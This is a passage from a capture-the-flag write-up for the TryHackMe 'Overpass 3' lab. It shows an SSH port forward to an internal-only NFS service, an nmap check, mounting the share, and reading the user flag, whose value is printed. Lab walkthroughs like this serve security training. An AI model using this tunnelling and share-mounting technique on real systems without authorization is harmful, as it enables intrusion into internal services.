 Seems good, so let's open the tunnel:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$ ssh -i id_ed25519 -fN -L 2049:localhost:2049 paradox@$IP                                                                                         255 ⨯
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$ nmap -p 2049 localhost
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-14 11:04 EDT
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000081s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE
2049/tcp open  nfs

Nmap done: 1 IP address (1 host up) scanned in 0.04 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$ 
```

The ssh port forwarding was successful. Now we can mount the nfs share and can access it:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$ sudo mount -t nfs localhost:/ /mnt
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$ ls -al /mnt
total 56
drwx------  3 kali kali   112 Nov 17  2020 .
drwxr-xr-x 19 root root 36864 Sep  3 16:08 ..
lrwxrwxrwx  1 root root     9 Nov  8  2020 .bash_history -> /dev/null
-rw-r--r--  1 kali kali    18 Nov  8  2019 .bash_logout
-rw-r--r--  1 kali kali   141 Nov  8  2019 .bash_profile
-rw-r--r--  1 kali kali   312 Nov  8  2019 .bashrc
drwx------  2 kali kali    61 Nov  7  2020 .ssh
-rw-------  1 kali kali    38 Nov 17  2020 user.flag
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$ 
```

### nfs share
The first thing, that we find in the share is the user flag:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$ cat /mnt/user.flag  
thm{3693fc86661faa21f16ac9508a43e1ae}
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$ 
```
